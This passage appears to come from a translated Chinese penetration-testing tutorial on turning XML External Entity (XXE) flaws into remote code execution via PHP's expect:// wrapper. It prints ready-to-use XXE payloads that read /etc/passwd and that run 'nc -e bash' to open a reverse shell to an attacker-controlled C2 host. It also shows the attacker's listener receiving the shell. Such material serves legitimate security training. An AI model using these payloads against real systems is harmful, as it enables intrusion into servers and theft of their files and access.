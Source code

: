 啊，没错，这是渗透测试的圣杯。虽然远程代码执行较为少见，但在某些 XXE 漏洞的应用部署中，它是可能发生的。松散的配置和易受攻击的组件可能使我们能够利用 XML 解析器，从而实现远程代码执行。

在之前的示例中，我们利用了一个相对简单的有效载荷从磁盘读取数据：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY exfil SYSTEM "file://**/etc/passwd**">
]>
<xxe>**&exfil;**</xxe>
```

一旦解析，`<xxe>` 标签将包含 `/etc/passwd` 文件的内容。得益于 PHP 的 `expect` 模块，要求 PHP 执行代码变得不那么困难。虽然默认情况下并不常部署，但 `expect` 扩展为 PHP 应用程序提供了一个 `expect://` 包装器，使得开发者可以通过类似 URL 的语法执行 shell 命令。

与 `file://` 包装器类似，`expect://` 提供对 PTY 流的读写访问，而不是对文件系统的访问。开发者可以使用 `fopen` 函数结合 `expect://` 包装器来执行命令并获取其输出：

```
<?php
$stream = fopen("expect://ssh root@remotehost uptime", "r");
?>
```

上述代码将打开一个只读流，连接到底层系统 shell，执行 `ssh root@remotehost` 命令，并在连接后，远程主机将执行 uptime 命令。

一旦完成，结果可以在应用程序的其余部分中使用。

在攻击 XML 时，我们不需要执行 PHP 代码并调用 `fopen` 函数。`expect://` 包装器在 XML 解析器中已经可以直接使用。

使用 `expect://` 相比于内置的系统 `passthru` 命令执行有其优势，因为它允许与终端进行一些交互，而 shell `passthru` 命令则更加有限。因此，你仍然可能会遇到这个模块已安装并启用的情况。

要在启用了 `expect` 模块的系统上看到这个操作，我们可以执行以下有效载荷。我们传递给 `expect://` 的命令是一个简单的 netcat bash 重定向器，指向我们位于云端的 C2 服务器 `c2.spider.ml`：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY shell SYSTEM "**expect://nc -e bash c2.spider.ml 443**">
]>
<xxe>**&shell;**</xxe>
```

这的美妙之处在于我们不一定关心输出。如果这是一个盲目 XXE 攻击，我们的 shell 会正常生成。

一旦 XML 有效载荷被解析，且应用程序尝试展开 shell 实体，`expect` 模块将执行我们在目标上使用的 netcat 命令，我们将获得对应用服务器的 shell 访问：

```
root@spider-c2-1:~# nc -lvp 443
listening on [any] 443 ...
connect to [10.240.0.4] from [107.181.189.72] 42384
**id**
**uid=33(www-data) gid=33(www-data) groups=33(www-data)**
**pwd** 
**/var/www/html/xml**

```
